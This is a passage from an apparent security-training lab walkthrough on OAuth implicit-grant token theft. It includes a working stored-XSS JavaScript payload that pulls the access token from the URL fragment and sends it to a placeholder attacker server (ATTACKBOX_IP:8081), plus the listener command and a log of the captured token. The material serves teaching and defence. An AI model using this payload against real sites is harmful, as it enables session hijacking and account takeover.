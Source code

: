 For demonstration purposes, the status input field is vulnerable to XSS. Once you reach the status page and enter a status like "Hello", it will be published. However, if an attacker exploits this vulnerability, they can inject a malicious script.

webpage showing textbox for entering status

Attacker Perspective

To prepare for the attack, inside the Attackbox instance, run a Python HTTP server to listen on port 8081 using the command python3 -m http.server 8081. If you encounter a "Port already in use" error, please try using a different port number. The attacker will share the following payload with the victim that he will enter as status (assume using social engineering):

<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
        

Let's dissect the payload:

    The JavaScript payload starts by extracting the fragment identifier from the URL, which is the part of the URL following the # symbol. It removes the leading # using substr(1) to obtain the raw fragment string.
    This string is then split by & to separate the individual key-value pairs. The reduce function processes each of these pairs, splitting them further by = to isolate the keys and values. These key-value pairs are then stored in an object called result.
    The script extracts the access_token value from this object and assigns it to the variable accessToken. To exfiltrate this access token, the script creates a new Image object and sets its src attribute to a URL that points to an attacker's server (http://ATTACKBOX_IP:8081/steal_token), appending the access token as a query parameter.
    When the image is loaded, it triggers a request to the attacker's server with the stolen access token included in the URL, effectively sending the token to the attacker. 

Copy and paste the code inside the victim machine into the status input field. Once the victim refreshes the page, the XSS payload is executed. It copies the access token from the URL fragment and sends it to the attacker's server at http://ATTACKBOX_IP:8081/steal_token. The attacker can then capture the token and use it to gain unauthorized access to the user's account.

Note: Refresh the page in order to visualize what the victim sees and to retrieve the token.
Terminal

           
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -


        

The implicit grant type is particularly vulnerable to such attacks because the access token is exposed in the URL fragment, making it accessible to any script running on the page. This vulnerability is compounded if the application does not enforce HTTPS, leading to potential token interception through man-in-the-middle attacks. 
